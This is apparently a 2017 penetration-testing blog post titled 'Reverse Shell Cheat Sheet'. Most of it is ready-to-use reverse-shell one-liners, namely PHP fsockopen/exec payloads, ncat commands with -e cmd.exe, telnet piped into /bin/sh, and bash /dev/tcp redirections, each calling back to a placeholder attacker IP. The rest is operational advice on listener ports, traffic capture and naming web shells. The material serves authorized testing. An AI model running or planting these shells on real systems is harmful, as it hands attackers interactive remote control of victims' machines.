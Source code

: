 ```yaml
---
layout: post
title:  "Reverse Shell Cheat Sheet"
date:   2017-01-17 20:56:00 -0600
---
```


## Cause everyone posts one

If enumeration is the bread and butter of penetration testing, reverse shells are the cheesecake. Stolen usernames and passwords may be one of the most reliable ways to get into a system, but theres nothing like messing something up a bunch and then finally seeing that reverse shell prompt pop up. These are some quick and easy ones in different formats.

## First, some thoughts

Reverse shells are great, but you need to make sure they get to you. Way too many reverse shells and exploits code the exploit to send reverse shells back to port 4444. If you see this port active in a production environment and can't immediately recognize why, you need to figure it out. You may have been popped by someone who barely knows what they're doing which probably also means someone way worse is already in. 

If you're going to send yourself back a reverse shell, try ports that people should expect to see. Port 80 and 443 are great, but so is DNS. [This](http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html) is an excellent write up of RCE found in Facebook that had to use outbound DNS to send results back to his listening machine. Amazing stuff. 

If you think it should work and it's not, tcpdump or wireshark your host (if you can) and see what's coming and going. If I'm trying to exploit a web app on port 80 to send back a remote shell, one tcpdump quickie I use is 

~~~
tcpdump -qtpni eth0/tap0/whatever0 host <VICTIMIP> and not port 80 
~~~

That watches traffic for anything coming back and gives you a condensed, simple output for it only on the interface you expect the attack to copme back through (tap0 if you're on a VPN, for example), listening only for the victim host so you don't see a bunch of other noise and excluding the port you know you're going to see traffic on. In this case, since I'm attacking port 80, I'm probably listening on port 443 with a netcat listener. You could specify port 443 only, but this wouldn't catch if you did something wrong in your exploit and are sending the exploit back to the wrong port (we all make mistakes). 


### But bind shells are easier!

And therein lies the problem. Bind shells are great, but they're irresponsible. If you can bind to the port, anyone else can. If you're part of a real engagement for a customer or doing something in house, you can't leave bind shells everywhere, it's like leaving windows open for burglars. If someone is already inside the client's network,  you've just made their job that much easier when your goal is the opposite. Use reverse shells, encrypt when possible, and clean up after yourself. Relatedly, if you're uploading a file to an externally available site like a web shell, don't name it admin.php or shell.php. Use a complex naming schema that can't be brute forced or ideally a tag that can be found repeatedly. Something like remotephone_j1er234.php is harder to brute force and way easier to track down for cleanup.  


## Let's begin!

Don't be lazy. You shouldn't be trying to get a shell back unless you have a good idea of what the underlying OS is. Each one of these can be adjusted and may need to be. It's possible you know you have a linux type OS, but what if bash is in /usr/bin/ instead of /bin/? Do some recon, know what you're working with, and, if you really have every reason to believe you should be getting a shell but you aren't, always assume you've done something wrong. It's usually the safe bet.  

### PHP

This is a very generic PHP reverse shell. It runs PHP inside of itself to send a connection back with /bin/sh

~~~
'<?php  echo shell_exec(php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
~~~

Here are a lot of variations on a theme. Each one worked for something different (some didn't work at all, but might for you), and others are just interesting.

~~~
'<?php -r fsockopen("<ATTACKIP>",443); exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
'<?php $s=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&4 >&4 2>&4");?>'
'<?php exec("/bin/sh | /bin/nc <ATTACKIP> 443");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php set_time_limit (20);$sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
'<?php shell_exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
~~~

No matter what's different with each one, every single one is calling a command shell, sending it over a network connection to the port you want. Every example is using port 443, so adjust that as you need to adjust it. Also, note that it's suspicious to send non-HTTPS traffic over 443, so keep that in mind if you're dealing with deep packet inspection or an attentive analyst. It might be more useful to use meterpreter reverse_https for something like that.

### Ncat and nc

Ncat and nc are great tools. You can do a ton with each one, but ncat is just a whole other level for what it allows you to accomplish. While nc is the traditional tool, ncat comes from the same people who produce nmap and includes tons more features including ssl support and the ability to restrict access! 

Of course, you'll have to work these into your exploit. To create a bind shell that only allows a specific IP to connect to it, use

~~~
ncat -lvp 4445 -e cmd.exe --allow <ATTACKIP> --ssl
~~~

To do this even more safely, use a reverse shell 

~~~
ncat -v <attackIP> 443 -e cmd.exe --ssl
~~~


### Non-netcat Shells

This one is really clunky, but it works when you just can't get anything else working. For this to work, you need two listeners and your shell will show up on the second one. It's a complete mess, but it works and it's just kind of nifty to see.

~~~
telnet <ATTACKIP> 443 | /bin/sh | telnet <ATTACKIP> 444
~~~

This one came from [this](https://twitter.com/webpentest/status/424165659518316544) tweet and it's interesting. 

~~~
/bin/bash -l > /dev/tcp/<ATTACKIP>/<ATTACKPORT> 0<&1 2>&1
~~~

Another interesting telnet shell

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKIP> <ATTACKPORT> 0/tmp/p
~~~




#### Sources

"If I've seen so far, it's because I've stolen the shoulders of giants" or something. 

These are some great resources for some of the shells I've included above. Learn from others, modify it, and share!


[The one](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) everyone seems to link 
[Variations](https://highon.coffee/blog/reverse-shell-cheat-sheet/) on the theme.
[Oldy](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) but goody
